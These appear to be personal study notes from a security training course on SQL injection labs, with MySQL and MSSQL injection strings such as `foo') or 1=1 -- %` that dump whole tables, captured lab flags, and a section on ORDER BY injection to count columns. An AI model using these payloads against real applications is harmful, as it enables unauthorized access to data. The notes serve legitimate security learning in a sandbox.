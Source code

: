 All of these work - in mysql the `--` must have a space before them. essentially make everything `1=1` to spit out all content 
```sql
foo') or id=11 or 1=1 -- %')
foo') or 1=1 -- %')
foo') or 1=1 -- %
```

![[Pasted image 20240819143050.png]]

3. `OS{63D819C008D86996F8A20DEEC3E2E16C}`

finding injection point with a `'`
![[Pasted image 20240819165006.png]]
All of these work - in mysql the `--` must have a space before them. essentially make everything `1=1` to spit out all content 
```sql
foo') or id=11 or 1=1-- %')
foo') or 1=1-- %')
foo') or 1=1-- %
```
![[Pasted image 20240819165327.png]]

4. `OS{EC926D156AF96773EE3C2E6BA51FB9D3}`
![[Pasted image 20240819170215.png]]
MSSQL presented an error that doesn't explain the fields of the SQL
![[Pasted image 20240819165809.png]]
```sql
foo') or id=11 or 1=1-- %')
foo') or 1=1-- %')
foo') or 1=1-- %
```
![[Pasted image 20240819170143.png]]


-----------
#### 8.2.3 Sorting

![[Pasted image 20240819170701.png]]

Depending on the application, we might be able to inject into the column name or the order.

Instead of ordering by a column name, we can also specify a numeric value corresponding to one of the returned columns. For example, if we submitted the query `SELECT name, price FROM menu ORDER BY 2`, the database would sort the results based on the price column. If we specify an invalid column, the database could throw an error, hinting at the existence of a SQL injection vulnerability. We can also use this technique to enumerate the number of columns in a query, iterating the value until an error is thrown.
![[Pasted image 20240819171410.png]]

Browse to `http://sql-sandbox/discovery/sorting` for the following exercises.
